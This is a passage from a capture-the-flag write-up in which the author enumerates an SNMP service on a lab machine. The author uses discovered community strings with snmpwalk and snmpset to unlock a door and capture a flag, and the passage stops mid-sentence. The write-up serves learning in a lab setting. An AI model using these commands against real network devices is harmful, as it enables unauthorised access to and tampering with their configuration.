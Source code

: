 I tried to connect on udp port 161 another time but unsuccessfully:

```plaintext
root@kali:~# nc -uv 192.10.2.5 161
192.10.2.5: inverse host lookup failed: Unknown host
(UNKNOWN) [192.10.2.5] 161 (snmp) open
death2all
^C
root@kali:~# 
```
Looking at the protocol I could see that it was snmp. So I lauched snmpcheck but it returned as an error:

```plaintext
root@kali:~# snmpcheck -t 192.10.2.5
test: .1.3.6.1.4.1.2021.2.1
suff: .2.1
test: .1.3.6.1.4.1.2021.4
suff: 
test: .1.3.6.1.4.1.2021.8.1
suff: .8.1
test: .1.3.6.1.4.1.2021.9.1
suff: .9.1
test: .1.3.6.1.4.1.2021.10.1
suff: .10.1
test: .1.3.6.1.4.1.2021.101
suff: 
No community name specified.
```

So I investigated a bit and I decided to use snmpwalk with the password previously found in the community parameter:

```plaintext
root@kali:~# snmpwalk -v 2c -c death2all 192.10.2.5
Created directory: /var/lib/snmp/mib_indexes
iso.3.6.1.2.1.1.1.0 = STRING: "You stand in front of a door."
iso.3.6.1.2.1.1.4.0 = STRING: "The door is Locked. If you choose to defeat me, the door must be Unlocked."
iso.3.6.1.2.1.1.5.0 = STRING: "Fear the Necromancer!"
iso.3.6.1.2.1.1.6.0 = STRING: "Locked - death2allrw!"
iso.3.6.1.2.1.1.6.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

It seemed that the door needed to be unlocked but iso.3.6.1.2.1.1.6.0 said it is locked. It also seemed to provide the read and write community string. Let's change some MIBS!

```plaintext
root@kali:~# snmpset -v 2c -c death2allrw 192.10.2.5 iso.3.6.1.2.1.1.6.0 s "Unlocked"
iso.3.6.1.2.1.1.6.0 = STRING: "Unlocked"
root@kali:~# snmpwalk -v 2c -c death2all 192.10.2.5 iso.3.6.1.2.1.1.1.0 = STRING: "You stand in front of a door."
iso.3.6.1.2.1.1.1.0 = STRING: "You stand in front of a door."
root@kali:~# snmpwalk -v 2c -c death2all 192.10.2.5
iso.3.6.1.2.1.1.4.0 = STRING: "The door is unlocked! You may now enter the Necromancer's lair!"
iso.3.6.1.2.1.1.5.0 = STRING: "Fear the Necromancer!"
iso.3.6.1.2.1.1.6.0 = STRING: "flag7{9e5494108d10bbd5f9e7ae52239546c4} - t22"
iso.3.6.1.2.1.1.6.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
root@kali:~# 
```
Excellent! flag 7 is also obtained! The md5 hash decrypted is demonslayer: